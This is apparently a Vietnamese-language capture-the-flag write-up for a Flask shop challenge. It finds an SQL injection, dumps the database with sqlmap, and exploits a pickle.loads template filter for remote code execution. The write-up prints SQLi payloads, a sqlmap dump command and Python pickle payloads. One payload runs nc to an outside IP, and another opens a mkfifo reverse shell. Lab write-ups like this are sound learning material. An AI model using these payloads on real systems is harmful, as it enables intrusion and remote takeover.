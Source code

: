 ```yaml
---
layout: post
title: THM C.O.P Writeup
date: 2021-11-04
categories: ["hackthebox"]
---
```


# Phân Tích Code
Vì đề bài cho source code nên mình sẽ tiến hành phần tích mã nguồn để xem ứng dụng có những chức năng gì và luồng của code như thế nào.

Đây là mã nguồn được viết bằng Python và Flask. Tôi sẽ đọc tệp ```routes.py``` để biết thông tin đầu vào của trang web.

![](https://i.imgur.com/phZwpEK.png)

Ở đây mình thấy có 2 chức năng là homepage và viewpage. Trang homepage sẽ hiển thị tất cả các sản phẩm và trang viewpage sẽ hiển thị chi tiết từng sản phẩm. 

Hai chức năng query all_product và select_by_id ở trong class Shop trong file ```models.py```, mình sẽ kiểm tra 2 chức năng này.

![Imgur](https://i.imgur.com/DCB0srs.png)

Trong hàm select_by_id có truyền 1 biến product_id và biến này không được filter => điều này có thể dẫn đến lỗi SQL Injection. 

![Imgur](https://i.imgur.com/a2tiI4C.png)

Ngay cả trong hàm query_db cũng không được filter. 

# Khai Thác SQLi
Mình thử payload ```' or '1'='1``` và ```' or '1'='2```

![Imgur](https://i.imgur.com/efANYyE.png)

![Imgur](https://i.imgur.com/TUEMQpf.png)

Tiếp theo mình sẽ sử dụng sqlmap để thực hiện khai thác dump db.

```python sqlmap.py -u http://localhost:8888/view/1 --random-agent --level=5 --risk=3 --dbms=mysql --dump ```

![Imgur](https://i.imgur.com/kuTmzc2.png)

Kết quả mình nhận được là dữ liệu đã bị encode dạng base64. 

=> Có vẻ như mình đã sai hay thiếu ở đâu đó.

# Tiếp Tục Phân Tích Code
Khi mình quay lại phân tích file ```routes.py``` thì mình mới để ý là dữ liệu hiển thị trong file ```item.html```

```python
@web.route('/view/<product_id>')
def product_details(product_id):
    return render_template('item.html', product=shop.select_by_id(product_id))
```

Nội dung của file ```item.html``` có 1 đoạn như thế này


```html
	<section class="py-5">
            <div class="container px-4 px-lg-5 my-5">
                <div class="row gx-4 gx-lg-5 align-items-center">
                    {% set item = product | pickle %}
                    <div class="col-md-6"><img class="card-img-top mb-5 mb-md-0" src="{{ item.image }}" alt="..." /></div>
                    <div class="col-md-6">
                        <h1 class="display-5 fw-bolder">{{ item.name }}</h1>
                        <div class="fs-5 mb-5">
                            <span>£{{ item.price }}</span>
                        </div>
                        <p class="lead">{{ item.description }}</p>
                    </div>
                </div>
            </div>
        </section>
```

Nội dung hiển thị ra được sử dụng hàm ```pickle``` để bảo vệ.

Và trong file ```app.py```, hàm sẽ được trả ra kết quả base64.

```python
@app.template_filter('pickle')
def pickle_loads(s):
	return pickle.loads(base64.b64decode(s))
```

Và sau một thời gian tìm kiếm trên google và về hàm pickle. Mình nhận thấy rằng hàm này có thể RCE.

- [https://davidhamann.de/2020/04/05/exploiting-python-pickle/ ](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)
- [https://docs.python.org/3/library/pickle.html ][https://docs.python.org/3/library/pickle.html ]

# Exploit
Trước tiên, mình thử ```nc``` đến server của mình để xem nó có hoạt động hay không với payload:

```python
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ("nc 103.68.192.239 8899")
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    data = base64.b64encode(pickled).decode()
    print(data)
```

Mở 1 port 8899 trên server với lệnh sau: ```nc -lnvp 8899```

Sau đó mình sử dụng burpsuite để thực hiện gửi payload lên ứng dụng web. 

![Imgur](https://i.imgur.com/OdzcERa.png)

Và mình nhận được 1 kết nối lên server.

![Imgur](https://i.imgur.com/43ZUklf.png)

Tiếp theo mình tạo một payload để thực hiện reverse shell về server của mình

```python
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ("rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 103.69.195.239 8899 >/tmp/f")
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    data = base64.b64encode(pickled).decode()
    print(data)
```

Và send payload lên ứng dụng

![Imgur](https://i.imgur.com/QbxrAYV.png)

Sau đó mình có được shell và get flag

![Imgur](https://i.imgur.com/tb8HHve.png)


